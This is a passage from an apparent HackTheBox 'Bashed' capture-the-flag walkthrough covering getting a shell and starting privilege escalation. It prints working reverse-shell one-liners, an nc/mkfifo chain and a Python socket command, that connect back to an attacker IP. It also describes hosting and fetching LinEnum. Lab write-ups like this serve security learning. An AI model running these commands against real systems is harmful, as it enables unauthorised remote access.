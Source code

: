 Testing with `nc` reverse shell:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.11 443 > /tmp/f
```

Checked the listener and still nothing, there surely is something in place that is killing our connection.

Let's try one last thing, `python`, before resorting to a php reverse shell file.

Checking if python exists:

```
which python
```

It does. Great, let's test our `python` reverse shell:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Checked the listener and viola! We got a reverse shell.

![Got Low Shell](/HackTheBox/htb-bashed/7_revsh.png)

Think about and perhaps even test how else could you have gained a reverse shell.

## Privilege Escalation

Now that we have a reverse shell, let's first make it functional.

![Making Shell Functional](/HackTheBox/htb-bashed/8_func.png)

I'd have ideally started this step by first checking if the system had python or not, but we already knew that it did.
By executing those commands, which can also be found [here](https://noobsec.net/oscp-cheatsheet/#Upgrading-your-shell-Linux), you gain a fully interactive shell and can use tab auto-completion, CTRL+C to break out of some command and also be able to use special commands like `su`.

Now that our shell is interactive, let's transfer an enumeration script and execute it. In this I'll be using LinEnum, which can be found [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

First we will host the script using python HTTP server:

![Hosting LinEnum](/HackTheBox/htb-bashed/9_host.png)

Then we will download the file using wget:

![File Transferred](/HackTheBox/htb-bashed/10_exec.png)

We also turn the execute bit on, and then finally execute the script.

As soon as the script is executed, a lot of data is dumped on the screen. We will go at the top where the script was executed and start interpreting the data dumped out.
